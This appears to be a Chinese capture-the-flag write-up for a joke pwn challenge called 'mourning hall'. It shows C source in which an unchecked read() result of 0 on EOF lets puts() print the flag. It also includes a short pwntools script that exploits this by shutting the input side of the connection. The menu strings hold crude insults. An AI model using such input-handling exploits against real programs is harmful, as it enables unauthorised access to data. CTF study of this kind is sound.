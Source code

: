 真正的核心漏洞是在 init() 中，这里把 flag 读了，放到 `msg_ptr[0]`

这里注意一个细节，我在出题的时候把变量名改了，比只改菜单不知道高到哪里去了。

```c
void init(){
    open("./flag",0);
    read(3,flag,38);
    close(3);
    msg_ptr[0] = flag;
    msg_ptr[1] = nmsl_msg;
    msg_ptr[2] = show_the_corpse_msg;
    msg_ptr[3] = cremate_your_mother_msg;
    msg_ptr[4] = edit_the_corpse_msg;
    msg_ptr[5] = bye_msg;
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}
```

由于每个功能都没有实现

```c
void add(){
	puts("NO_IMPLEMENT");
}

void show(){
	puts("NO_IMPLEMENT");
}

void delete(){
	puts("NO_IMPLEMENT");
}

void edit(){
	puts("NO_IMPLEMENT");
}

```

所以无法使用 tcache attack，所以也不能用 fastbin attack。

这里就需要利用我们的 house of your mother's mourning hall。详见 exp

```python
from pwn import *
r = process('./pwn')
r.recvuntil('choice:')
r.shutdown_raw('send')
r.interactive()
```

read() 读到 EOF 返回 0，puts() 越界打印 flag

```
======================
    mourning hall
======================
1.NM$L
2.Show the corpse
3.Cremate your mother
4.Edit the corpse
5.Exit
======================
choice:flag{nmsl}

Invalid!
```
